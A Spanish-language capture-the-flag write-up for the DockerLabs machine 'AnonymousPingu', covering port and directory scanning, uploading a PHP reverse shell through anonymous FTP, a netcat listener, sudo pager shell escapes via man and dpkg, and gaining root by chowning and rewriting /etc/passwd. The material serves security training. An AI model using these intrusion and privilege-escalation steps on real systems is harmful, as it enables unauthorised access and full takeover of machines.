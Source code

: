 ```yaml
---
title: AnonymousPingu
author: Ldeluq
date: 2019-08-08 14:10:00 +0800
categories: [Ctf, DockerLabs]
tags: [ciber]
render_with_liquid: false
---
```


Reconocimiento

Comenzamos el proceso de reconocimiento identificando los puertos abiertos en el sistema objetivo. Descubrimos que los puertos que se encuentran activos son el 21 (FTP) y el 80 (HTTP).

```
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG ports 
```

- `-p-`: Escanea todos los puertos (1-65535).
- `--open`: Solo muestra los puertos abiertos.
- `-sS`: Realiza un escaneo SYN, que es rápido y discreto.
- `--min-rate=5000`: Envía al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-n`: No realiza resolución DNS.
- `-Pn`: No realiza ping previo para determinar si el host está activo.
- `-vvv`: Muestra resultados detallados y en tiempo real.

![image](https://github.com/user-attachments/assets/fbdcf75b-e25d-4d92-8797-3e558b2a92e6)

A continuación, evaluamos si los puertos abiertos presentan alguna vulnerabilidad, además de obtener más información sobre los servicios asociados a esos puertos.

```
nmap -p 21,80 -sCV 172.17.0.2 -oG targeted
```

![image](https://github.com/user-attachments/assets/35d4dab8-0433-48d9-9943-52e4e2a36bfd)

Exploración Web

Al acceder a la página web, observamos lo siguiente:

![image](https://github.com/user-attachments/assets/ede1f8d5-c313-4e69-94ee-aee4e813aa5e)

Utilizamos `Gobuster` para realizar un reconocimiento web y explorar los directorios disponibles en el sitio.

```
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,doc,html,txt,img
```

- `gobuster dir` - Indica que estás utilizando la herramienta Gobuster para realizar un escaneo de directorios.
- `-u http://172.17.0.2/` Especifica la URL objetivo que deseas escanear en busca de directorios.
- `-w` Especifica que diccionario queremos usar
- `-x` Para indicar que tipo de extension queremos que nos encuentre

![image](https://github.com/user-attachments/assets/7684d11b-a469-40f3-8254-b0d964ec0112)

Vemos que hay un directorio upload pero no hay nada dentro.

![image](https://github.com/user-attachments/assets/d2061512-4cf0-4b1a-90a6-0abaad99a259)

## FTP

Procedemos a explorar el servicio FTP, ya que hemos identificado anteriormente que el usuario `anonymous` está habilitado y que tenemos permisos de escritura en el directorio `upload`.

**Nota:** Los usuarios `anonymous` no suelen tener contraseñas o son opcionales en muchos servidores FTP.

A continuación, intentamos conectarnos al servidor FTP utilizando el siguiente comando:

```
ftp 172.17.0.2
```

Al intentar acceder al servidor FTP con el usuario `anonymous` y sin contraseña, observamos que podemos entrar perfectamente.

![image](https://github.com/user-attachments/assets/ea8254c0-879e-4ece-b542-3f19975c77a5)

Intrusión en la Máquina

Generamos la reverseshell utilizando **Pentest Monkey**, una herramienta popular para crear shells PHP que nos permiten obtener acceso remoto al servidor. La ruta de la reverseshell es la siguiente:

[Reverseshell de Pentest Monkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

Pasos para Cargar la Reverseshell

1. **Preparar la Reverseshell**: Creamos un archivo de reverseshell en nuestro sistema local utilizando el código disponible en la ruta mencionada anteriormente.
2. **Subir el Archivo**: Utilizamos el comando de FTP para subir el archivo al directorio `upload`.
3. **Ejecutar la Reverseshell**: Una vez que el archivo esté en el servidor, lo ejecutaremos para establecer la conexión.

![image](https://github.com/user-attachments/assets/c6b9c6c5-e334-466c-ac7c-931e21464118)

Nos ponemos a escuchar por netcat en mi caso por el 4444

```
nc -lvnp 4444
```

Luego, accedemos a la ruta de la página web donde hemos cargado la reverseshell:

![image](https://github.com/user-attachments/assets/efce64bc-e77c-42cb-8b26-c651f630a409)

Y ya tendriamos acceso a la maquina.

![image](https://github.com/user-attachments/assets/bbc7b73c-09e9-4095-a526-e827fdead208)

TTY ReverseShell

### Iniciar una sesión de shell interactiva

En nuestra shell básica, ejecutamos el siguiente comando para forzar la creación de una sesión de bash interactiva:

```
script /dev/null -c bash
```

### Suspender la shell

Una vez que el comando anterior está en ejecución, utilizamos

```
Control+Z
```

para suspender temporalmente nuestra shell.

### Preparar nuestro terminal local:

Antes de volver a nuestra shell, configuramos nuestro terminal local:

```
stty raw -echo; fg
```

### Resetear la configuración del terminal

Ahora que tenemos el control de la shell, la reseteamos para asegurar que se comporta correctamente:

```
reset
```

### Configura el tipo de terminal:

```
xterm
export TERM=xterm
export SHELL=bash
```

## Usuario pingu

Ya estamos dentro de la máquina. Si ejecutamos el comando `sudo -l`, vemos que podemos ejecutar `man` como `Pingu`. Para ello, debemos hacer lo siguiente:

![Interfaz de la herramienta](https://github.com/user-attachments/assets/cef8486b-9c3c-4905-90b8-1dc9d1c54986)

Esta herramienta tiene una sección al final que muestra `MORE`. Si en lugar de desplazarnos hacia abajo, escribimos `!/bin/bash`, se generará una shell con ese usuario.

```
sudo -u pingu man man
```

![image](https://github.com/user-attachments/assets/7300b460-b586-4311-b862-5bd5df506bd4)

Si ahora ponemos `!/bin/bash`:

![image](https://github.com/user-attachments/assets/eb9e8678-2261-4e21-96bc-9a49f19abafc)

Vemos que hemos subido de usuario y ya estamos con el usuario `pingu`.

![Cambio de usuario](https://github.com/user-attachments/assets/0c3da884-f0fb-45df-9692-59312d0752ab)

## Usuario gladys

Vamos a volver a ejecutar el comando `sudo -l`.

![Comando sudo](https://github.com/user-attachments/assets/0cedf58f-0919-4d19-a6eb-c37df62b1d4b)

Observamos que podemos ejecutar `nmap` y `dpkg` como `gladys`. En mi caso, utilizaré `dpkg` y aplicaré el mismo método que antes con `man`. En mi caso, utilizaré `dpkg` y aplicaré el mismo método que antes con `man`.

```
sudo -u gladys /usr/bin/dpkg -l
```

Si ahora ponemos `!/bin/bash`:

![image](https://github.com/user-attachments/assets/7f86e264-8d5c-4fb9-8302-0177b78e7dbf)

Vemos que hemos subido de usuario y ya estamos con el usuario `gladys`.

![image](https://github.com/user-attachments/assets/0e482934-f8cd-4cd1-bede-abf6bd888fa6)

## Usuario root

Vamos a volver a ejecutar `sudo -l`.

![image](https://github.com/user-attachments/assets/fb5bbc2b-bd10-4091-bb4c-a9b168f0d487)

Observamos que podemos ejecutar `chown` como `root`. Para ello, procedemos de la siguiente manera:

Primero cambiamos los permisos de `/etc/passwd` para que nuestro usuario tenga permisos:

```
LFILE=/etc/passwd
```


```
sudo /usr/bin/chown gladys:gladys $LFILE
```



```
cat /etc/passwd
```


se copia lo guardado en el directorio passwd y se modifica donde esta root se quita el caracter x se guarda en el portapapeles



y usamos el comando  `echo 'se pega lo que esta en portapapeles'> /etc/passwd`




Ahora hacemos un `su root` y accederemos al usuario _root_ sin proporcionar contraseña

![image](https://github.com/user-attachments/assets/45c469ca-e1f3-4c7a-8025-920b591e5324)z
